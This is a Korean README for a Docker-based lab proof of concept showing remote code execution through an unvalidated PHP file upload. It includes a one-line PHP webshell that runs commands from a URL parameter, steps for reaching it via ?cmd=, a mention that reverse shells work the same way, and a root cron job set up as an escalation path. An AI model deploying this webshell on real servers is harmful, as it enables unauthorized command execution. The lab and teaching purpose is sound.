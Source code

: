 # 1. RCE (File Upload) 취약점 이란?

파일 업로드 취약점은 서버가 업로드된 파일에 대해 충분한 검증 없이 저장 및 실행하도록 허용하는 보안 문제로써 공격자는 악성 파일을 업로드하여 원격 명령 실행, 리버스 쉘 획득 등 다양한 공격을 수행할 수 있습니다

# 2. PoC 개요

본 PoC는 파일 업로드 취약점을 이용해 RCE를 재현합니다.

공격자가 악성 PHP 웹쉘을 업로드하고 이를 실행하여 서버에서 임의 명령어를 실행할 수 있음을 실습 환경에서 확인할 수 있습니다.

# 3. PoC 환경 구성

- 언어 및 프레임워크 : PHP 8.2 (내장 웹서버 사용)
- PoC 구성
    - `upload.php`: 파일 업로드 및 실행 가능한 PHP 웹쉘 포함
    - `Dockerfile`: 도커 이미지 생성용 설정
- Docker 환경
    - Docker 이미지 빌드 후 컨테이너 실행 시 PHP 내장 웹서버가 0.0.0.0:8080 포트에서 실행
    - 업로드 파일은 uploads/ 폴더에 원본 파일명으로 저장 (검증 및 난독화 미실시)

# 4. PoC 실행 방법

1. Docker 이미지 가져오기
    
    ```bash
    $ docker pull dukbong/poc:2025-06-fileupload
    ```
    
2. Docker 컨테이너 실행
    
    ```bash
    docker run --name fileupload -p 8080:8080 dukbong/poc:2025-06-fileupload
    ```

3. Docker 환경 구성 ( 다양한 취약점을 위한 구성 )

    1. root 권한으로 접속
    ```bash
    docker exec -it --user root fileupload /bin/bash
    ```
    2. root 권한으로 cron 작성
    ```bash
    vi /etc/cron.d/fileupload

    * * * * * root /tmp/fileupload
    ```
    3. 권한 설설정
    ```bash
    chmode 744 /etc/cron.d/fileupload
    ```
    4. cron 재시작
    ```bash
    service cron restart
    ```
    
4. 웹 애플리케이션 접속
    
    ```bash
    http://localhost:8080
    ```
    
5. 주요 엔드포인트
    
    | 경로 | 설명 | 메소드 | 비고 |
    | --- | --- | --- | --- |
    | / | 파일 업로드 페이지 | GET, POST | 취약점 시연 대상 |
    | /uploads/{file_name} | 파일 경로 | GET | 취약점 시연 대상 |

6. 악성 코드
    
    ```php
    <?php
        system($_GET['cmd']);
    ?>
    ```

# 5. 재현 절차

1. 웹 페이지 접속 후 임의의 PHP 웹쉘 파일 (예: `shell.php`) 업로드 합니다.
2. 업로드 성공 후 `/uploads/shell.php?cmd=id` 형태로 접근합니다.
3. 서버에서 명령어가 실행되어 결과가 출력 되는걸 확인합니다.
4. 리버스 쉘 페이로드도 동일 방식으로 업로드 후 실행 가능합니다.

# 6. 느낀점 및 기술적 이해
